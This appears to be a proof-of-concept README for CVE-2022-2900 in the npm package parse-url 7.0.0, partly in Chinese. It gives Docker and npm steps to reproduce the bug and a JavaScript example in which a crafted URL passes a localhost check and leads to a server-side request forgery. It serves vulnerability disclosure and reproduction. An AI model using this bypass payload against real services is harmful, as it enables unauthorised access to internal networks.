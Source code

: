 ### CVE-2022-2900

### PoC Links 
[Huntr.dev](https://huntr.dev/bounties/1b4c972a-abc8-41eb-a2e1-696db746b5fd/)

### Docker Build and Run Command
```shell
docker build -t cve-2022-2900-poc . 
docker run -itd --name CVE-2022-2900-POC cve-2022-2900-poc 
docker exec -it CVE-2022-2900-POC /bin/bash
```

### PoC Reproduce Command
```shell
cd /poc
# 安装存在漏洞的依赖
npm init -y
npm install --save parse-url@7.0.0
# 运行poc.js
node poc.js
```

### Description
可以观察到url解析错误，解析出来的属性错误，可能会触发SSRF漏洞等，例如：
```javascript
import parseUrl from "parse-url";
import fetch from 'node-fetch';

var parsed = parseUrl("http://nnnn@localhost:808:/?id=xss")
// SSRF，会访问到 http://nnnn@localhost/808  (跳转)-->  http://localhost/808
if (parsed.resource == "localhost") {
    console.log("internal network access is blocked")
} else {
    const response = await fetch('http://' + parsed.resource + parsed.pathname);
    console.log(response)
}
```



